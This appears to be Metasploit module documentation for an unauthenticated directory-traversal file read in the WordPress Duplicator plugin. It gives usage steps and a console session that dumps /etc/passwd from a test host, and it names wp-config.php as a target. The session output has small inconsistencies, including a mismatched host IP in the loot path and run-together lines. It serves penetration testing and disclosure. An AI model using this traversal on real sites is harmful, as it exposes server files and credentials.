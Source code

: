 ## Vulnerable Application
The issue is being actively exploited, and allows attackers to download arbitrary files, such as the `wp-config.php` file.
This module exploits an unauthenticated directory traversal vulnerability in WordPress plugin "Duplicator" version 1.3.24-1.3.26,
allowing arbitrary file read with the web server privileges.

Duplicator [Changelog](https://snapcreek.com/duplicator/docs/changelog/)

Vulnerable version: [duplicator.1.3.24.zip](https://downloads.wordpress.org/plugin/duplicator.1.3.24.zip),
[duplicator.1.3.26.zip](https://downloads.wordpress.org/plugin/duplicator.1.3.26.zip)

## Verification Steps

1. Start `msfconsole`
1. `use auxiliary/scanner/http/wp_duplicator_file_read`
1. Set the `RHOSTS`
1. Set the `RPORT`
1. Run the exploit: `run`


## Options

## Scenarios

### Ubuntu 20.04 running WordPress 5.6, Duplicator 1.3.26

```
msf5 > use auxiliary/scanner/http/wp_duplicator_file_read
msf5 auxiliary(scanner/http/wp_duplicator_file_read) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 auxiliary(scanner/http/wp_duplicator_file_read) > set rport 8080
rport => 8080
msf5 auxiliary(scanner/http/wp_duplicator_file_read) > set FILEPATH /etc/passwd
FILEPATH => /etc/passwd
msf5 auxiliary(scanner/http/wp_duplicator_file_read) > set DEPTH 5
DEPTH => 5

msf5 auxiliary(scanner/http/wp_duplicator_file_read) > run

[*] Downloading file...

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:110::/run/uuidd:/usr/sbin/nologin
avahi-autoipd:x:106:111:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
rtkit:x:109:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
lightdm:x:110:115:Light Display Manager:/var/lib/lightdm:/bin/false
cups-pk-helper:x:111:118:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
speech-dispatcher:x:112:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
whoopsie:x:113:119::/nonexistent:/bin/false
kernoops:x:114:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
saned:x:115:121::/var/lib/saned:/usr/sbin/nologin
pulse:x:116:122:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
avahi:x:117:124:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
colord:x:118:125:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:119:7:HPLIP system user,,,:/var/run/hplip:/bin/false
debian-tor:x:120:126::/var/lib/tor:/bin/false
iodine:x:121:65534::/var/run/iodine:/usr/sbin/nologin
thpot:x:122:65534:Honeypot user,,,:/usr/share/thpot:/dev/null
postfix:x:123:128::/var/spool/postfix:/usr/sbin/nologin
nm-openvpn:x:124:130:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin
statd:x:125:65534::/var/lib/nfs:/usr/sbin/nologin
sshd:x:126:65534::/run/sshd:/usr/sbin/nologin
nm-openconnect:x:127:131:NetworkManager OpenConnect plugin,,,:/var/lib/NetworkManager:/usr/sbin/nologin
geoclue:x:128:135::/var/lib/geoclue:/usr/sbin/nologin
nxpgsql:x:1001:1001:NeXpose PostgreSQL User:/opt/rapid7/nexpose/nsc/nxpgsql:/bin/sh
mysql:x:129:136:MySQL Server,,,:/nonexistent:/bin/falselsadm:x:999:999:lsadm:/:/sbin/nologin
jenkins:x:131:138:Jenkins,,,:/var/lib/jenkins:/bin/bash
libvirt-qemu:x:64055:139:Libvirt Qemu,,,:/var/lib/libvirt:/usr/sbin/nologin
libvirt-dnsmasq:x:132:142:Libvirt Dnsmasq,,,:/var/lib/libvirt/dnsmasq:/usr/sbin/nologin
test:x:1002:1003:,,,:/home/test:/bin/bash
ftp:x:133:143:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
gdm:x:134:144:Gnome Display Manager:/var/lib/gdm3:/bin/fals

[+] File saved in: /root/.msf4/loot/20201211005722_default_13.250.118.98_duplicator.trave_383073.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
